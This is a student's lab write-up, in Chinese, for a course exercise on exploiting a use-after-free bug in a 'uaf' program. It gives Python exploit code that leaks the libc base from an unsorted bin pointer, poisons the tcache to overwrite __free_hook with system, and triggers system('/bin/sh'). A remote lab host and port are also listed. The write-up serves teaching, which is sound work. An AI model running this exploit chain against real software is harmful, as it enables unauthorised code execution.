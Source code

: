 ### Task2 UAF

> 利用 uaf/uaf 中的释放后使用漏洞，通过类型混淆的利用方式构建任意地址读写原语（10 points），进而通过内存破坏实现弹 shell，执行 flag.exe 取得 flag；（5 points）
>   - 远程环境位于 IP: 8.154.20.109, PORT: 10402
>   - 注：相比于上个目标，这个程序开启了 RELRO 保护，故无法破坏 GOT 表内容；
>   - 提示：回到最开始的 example.c，位于 libc 内存中有其他的攻击目标可以作为写的对象来实现控制流劫持。

攻击思路:

类型混淆：利用 UAF 可以以不同方式解释同一块内存, 因为 intro 指针既可以是字符串指针也可以是函数指针

根据堆管理基础中分析的堆块结构可以得到，HOOK_OFFSET = 0x10， ARENA_OFFSET = 0x60

1. 当释放大于特定大小的内存块时，这些块会被放入 unsorted bin 中，而 unsorted bin 是一个双向链表，其 fd 和 bk 指针指向 main_arena + 0x60（ARENA_OFFSET）。

```python
# 分配一大一小两个chunk
idx1 = AddUser(b"user1", b"1111", LARGE_CHUNK_SIZE, b"AAAA", b"aaaa")
idx2 = AddUser(b"user2", b"2222", SMALL_CHUNK_SIZE, b"BBBB", b"bbbb")

# 释放chunk进入unsorted bin
DeleteUser(idx1, b"1111")
DeleteUser(idx2, b"2222")

# 利用UAF读取fd指针
memory_leak = ShowUser(idx1, b"1111")[2]

# 计算libc基址
main_arena = u64(memory_leak[:8]) - ARENA_OFFSET
libc.address = main_arena - libc.sym["__malloc_hook"] - HOOK_OFFSET
```

2. 获取 libc 基址后，计算出 __free_hook 的地址。由于程序开启了 RELRO 保护，无法通过修改 GOT 表来劫持控制流，但我们可以修改 __free_hook：

```python
# 修改tcache中的fd指针指向__free_hook
EditUser(idx2, b"2222", p64(libc.sym["__free_hook"]), b"bbbb", b"bbbb")

# 分配新的chunk，使得其intro指针指向__free_hook
idx3 = AddUser(b"user3", b"3333", CONTROL_CHUNK_SIZE, b"CCCC", b"cccc")
idx4 = AddUser(p64(libc.sym["system"]), b"4444", SMALL_CHUNK_SIZE, b"/bin/sh\0", b"dddd")
```

3. 释放包含"/bin/sh"的chunk时，就会触发system("/bin/sh")

```python
DeleteUser(idx4, b"4444")
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab3/image-12.png)
